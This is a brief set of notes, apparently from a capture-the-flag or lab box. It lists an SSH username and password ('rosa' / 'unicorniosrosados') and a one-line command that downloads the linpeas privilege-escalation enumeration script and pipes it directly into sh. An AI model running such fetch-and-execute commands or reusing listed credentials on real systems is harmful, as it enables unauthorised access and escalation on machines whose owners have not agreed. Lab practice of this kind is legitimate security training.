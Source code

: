 '''
#ssh
''' 
1. user: rosa
2. pass :unicorniosrosados
'''


curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh